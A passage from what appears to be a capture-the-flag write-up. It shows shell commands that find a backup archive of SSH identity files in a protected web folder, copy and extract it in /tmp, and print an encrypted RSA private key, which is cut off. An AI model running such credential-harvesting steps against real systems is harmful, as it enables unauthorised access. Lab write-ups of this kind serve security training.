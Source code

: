 This was successful, and led me to ssh credentials:  

```bash
$ pwd
/home/david/public_www

$ ls -la
total 16
drwxr-xr-x 3 david david 4096 Oct 25  2019 .
drwx--x--x 5 david david 4096 Oct 25  2019 ..
-rw-r--r-- 1 david david  402 Oct 25  2019 index.html
drwxr-xr-x 2 david david 4096 Oct 25  2019 protected-file-area

$ cd protected-file-area

$ pwd
/home/david/public_www/protected-file-area

$ ls -la
total 16
drwxr-xr-x 2 david david 4096 Oct 25  2019 .
drwxr-xr-x 3 david david 4096 Oct 25  2019 ..
-rw-r--r-- 1 david david   45 Oct 25  2019 .htaccess
-rw-r--r-- 1 david david 1915 Oct 25  2019 backup-ssh-identity-files.tgz

$ cat .htaccess
realm David's Protected File Area. Keep out!

#Let's move this to /tmp and rename it something shorter:
$ cp backup-ssh-identity-files.tgz /tmp/ssh-files.tgz
```  
## Privilege Escalation to User David  

Now that we have this compressed .tgz folder in a place that we have better access to, we can extract it with tar:  

```bash
$ tar -xvzf /tmp/ssh-files.tgz

$ cd /tmp/home/david/.ssh

$ cat id_rsa

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,477EEFFBA56F9D283D349033D5D08C4F

seyeH/feG19TlUaMdvHZK/2qfy8pwwdr9sg75x4hPpJJ8YauhWorCN4LPJV+wfCG
tuiBPfZy+ZPklLkOneIggoruLkVGW4k4651pwekZnjsT8IMM3jndLNSRkjxCTX3W
KzW9VFPujSQZnHM9Jho6J8O8LTzl+s6GjPpFxjo2Ar2nPwjofdQejPBeO7kXwDFU
RJUpcsAtpHAbXaJI9LFyX8IhQ8frTOOLuBMmuSEwhz9KVjw2kiLBLyKS+sUT9/V7
HHVHW47Y/EVFgrEXKu0OP8rFtYULQ+7k7nfb7fHIgKJ/6QYZe69r0AXEOtv44zIc
Y1OMGryQp5CVztcCHLyS/9GsRB0d0TtlqY2LXk+1nuYPyyZJhyngE7bP9jsp+hec
dTRqVqTnP7zI8GyKTV+KNgA0m7UWQNS+JgqvSQ9YDjZIwFlA8jxJP9HsuWWXT0ZN
6pmYZc/rNkCEl2l/oJbaJB3jP/1GWzo/q5JXA6jjyrd9xZDN5bX2E2gzdcCPd5qO
xwzna6js2kMdCxIRNVErnvSGBIBS0s/OnXpHnJTjMrkqgrPWCeLAf0xEPTgktqi1
Q2IMJqhW9LkUs48s+z72eAhl8naEfgn+fbQm5MMZ/x6BCuxSNWAFqnuj4RALjdn6
i27gesRkxxnSMZ5DmQXMrrIBuuLJ6gHgjruaCpdh5HuEHEfUFqnbJobJA3Nev54T
fzeAtR8rVJHlCuo5jmu6hitqGsjyHFJ/hSFYtbO5CmZR0hMWl1zVQ3CbNhjeIwFA
bzgSzzJdKYbGD9tyfK3z3RckVhgVDgEMFRB5HqC+yHDyRb+U5ka3LclgT1rO+2so
uDi6fXyvABX+e4E4lwJZoBtHk/NqMvDTeb9tdNOkVbTdFc2kWtz98VF9yoN82u8I
Ak/KOnp7lzHnR07dvdD61RzHkm37rvTYrUexaHJ458dHT36rfUxafe81v6l6RM8s
9CBrEp+LKAA2JrK5P20BrqFuPfWXvFtROLYepG9eHNFeN4uMsuT/55lbfn5S41/U
rGw0txYInVmeLR0RJO37b3/haSIrycak8LZzFSPUNuwqFcbxR8QJFqqLxhaMztua
```